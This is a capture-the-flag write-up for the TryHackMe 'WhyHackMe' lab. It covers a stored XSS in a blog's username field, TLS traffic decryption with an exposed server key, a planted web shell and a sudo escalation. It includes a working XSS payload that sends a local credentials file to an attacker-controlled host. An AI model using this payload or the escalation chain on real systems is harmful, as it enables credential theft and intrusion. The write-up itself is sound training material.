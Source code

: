 # WhyHackMe

https://tryhackme.com/room/whyhackme, rated Medium

1. A scan will reveal 21, 22 and 80. Accessing FTP reveals a `update.txt` file, saying that some credentials will be available from localhost/dir/pass.txt but only by the admin

2. Going to the website reveals a simple blog. You can login at login.php, register at register.php and so on, with blog.php being where you can leave comments once logged in. Notably, a comment from the admin already exists saying they will 'carefully review all comments made', a fairly strong hint that this is an XSS exploit.

3. The cookie for your user is HTTPOnly, so it will not be possible to steal the admin's cookie. However, first finding the point of injection is important. Creating a comment with script tags gets escaped when it is rendered. However, the user's name is also rendered and by registering a user with xss in its username, you can observe this is successfully executed.

4. To exploit the admin's viewing of the site, I created a user with the following username:

     `<script>fetch("http://127.0.0.1/dir/pass.txt").then(r => r.text()).then(t => fetch("http://attack-box:1234?q="+t,{mode:"no-cors"}))</script>`

   I then created a python webserver on my attack box and waited. After a minute, I got a hit:

     `10.10.63.172 - - [05/Jan/2024 21:32:15] "GET /?q=jack:[redacted] HTTP/1.1" 200 -`

5. These credentials allow access as the user 'jack' over ssh, where you can access the user flag. `sudo -l` reveals that jack can run iptables as root, but this does not provide easy privesc

6. Enumerating the machine some more, you can find under `/opt` another note and a `capture.pcap`. The note says there is a hacked site running out of `/usr/lib/cgi-bin` which is inaccessible to jack, and that the pcap will provide help. Opening the pcap reveals encrypted tls communication, with the only thing that can be recovered being the target port, 41312

7. To decrypt the traffic a SSL key log or the private key of the server is required. Fortunately, the 41312 site is defined in the `000-default.conf` under /etc/apache2/sites-available. This reveals the path of the cert, which is readable: `/etc/apache2/certs/apache.key`

8. Putting this into wireshark (Edit > Preferences > Protocols > TLS > RSA Keys List) will decrypt the traffic and show how to access the shell that has been placed on the system. To view the site externally, use `sudo iptables -D INPUT 1` as jack to delete the blocking rule. The shell which requires the correct query string params and path, allows shell exec as the user 'h4ck3d'.

9. To finish the machine, use the shell to get a reverse shell or whoever you wish to get an interactive session (the machine has nc.openbsd). Then, by checking `sudo -l` you can see the hacker user has full access. Switch to root and get the final flag.
